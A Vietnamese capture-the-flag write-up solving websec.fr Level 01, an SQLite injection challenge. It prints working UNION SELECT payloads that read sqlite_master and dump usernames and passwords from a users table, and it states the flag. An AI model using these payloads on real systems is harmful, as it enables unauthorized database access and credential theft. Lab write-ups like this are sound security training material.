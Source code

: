 # Babysteps

## Level 01

Description: Nothing fancy
<h3>Cách 1:</h3>

<a href="https://websec.fr/level01/">Link challenge</a>
Khi mới truy cập vào web ta sẽ được một form như sau:<br>
<img src="./img/level1/lv1_index.png/"></img>
Khi nhìn vào câu dẫn ta có thể nhận ra ngay đây là một dạng bài vê SQLi rồi nhỉ?
Để kiểm tra ta có thể nhập thử <code>'</code>, site sẽ thông báo ngay lỗi: <img src="./img/level1/lv1_error.png/"></img>. Hoặc có thể đọc source của site ở <a href="https://websec.fr/level01/source.php">Link source</a>.
=> DB đang sử dụng là SQLite3
Bây giờ sẽ cần tìm xem số cột của bảng là bao nhiêu. 
Mình sẽ nhập số một cách bình thường. Ở đây mình nhập là 1. Site trả về kết quả:
<img src="./img/level1/lv1_test.png/"></img><br>
=> mình đã tìm được số cột của bảng là 2 cột.
Sau đó mình dùng payload <code>1 and 1=0 UNION SELECT sql,2 FROM sqlite_master-- </code> để dò thông tin từ bảng, thu được: 
<img src="./img/level1/lv1_table.png/"></img>
=> Tên bảng là 'users' và có 3 thuộc tính là id, username, password

Vì chỉ crawl được thông tin của 1 dòng nên ta sẽ phải fuzz từng dòng.
Payload để có flag: <code>1 and 1=0 UNION SELECT username|| '-' || password, 2 FROM users LIMIT 2,1-- </code>
=> flag: WEBSEC{Simple_SQLite_Injection}
<h3>Cách 2:</h3>
Payload để tìm ra tên bảng:
<Code>-1 UNION SELECT 'xyz', GROUP_CONCAT(sql) FROM sqlite_master;--</Code>
Payload để lấy ra password:
<Code>-1 UNION SELECT 'xyz', GROUP_CONCAT(password) FROM users;--</Code>
